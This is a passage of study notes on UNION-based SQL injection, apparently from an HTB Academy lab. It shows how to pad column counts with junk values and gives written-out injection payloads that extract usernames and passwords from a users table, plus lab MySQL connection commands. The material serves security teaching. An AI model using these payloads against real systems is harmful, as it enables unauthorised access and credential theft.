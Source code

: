#### Handling Uneven Columns

**Problem: Different Column Counts**
```sql
-- Original query has 4 columns:
SELECT name, price, description, category FROM products WHERE id = 'USER_INPUT'

-- Target table has 2 columns:
SELECT username, password FROM users

-- Direct UNION fails - need to match column count!
```

**Solution: Junk Data**
```sql
-- Use numbers as junk data:
' UNION SELECT username, password, 3, 4 FROM users-- '

-- Use strings as junk data:
' UNION SELECT username, password, 'junk', 'data' FROM users-- '

-- Use NULL (universal - fits all data types):
' UNION SELECT username, password, NULL, NULL FROM users-- '
```

**Why Numbers Work Best:**
- **Tracking**: Numbers help identify which column displays where
- **Universal**: Numbers work with most data types  
- **Simple**: Easy to increment (1,2,3,4,5...)

**Example with 4 Columns:**
```sql
-- Injection: UNION SELECT username, 2, 3, 4 FROM users-- '
-- Result table:
+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+

-- Analysis: username appears in column 1, junk data in columns 2-4
```

#### HTB Academy Practical Example: employees/departments UNION

**Scenario:** Combine all records from `employees` and `departments` tables with different column counts.

**Step 1: Connect to MySQL**
```bash
mysql -h TARGET_IP -P TARGET_PORT -u root -ppassword
```

**Step 2: Analyze Table Structure**
```sql
USE employees;

-- Check employees table structure
DESCRIBE employees;
-- Output: 6 columns (emp_no, birth_date, first_name, last_name, gender, hire_date)

-- Check departments table structure  
DESCRIBE departments;
-- Output: 2 columns (dept_no, dept_name)
```
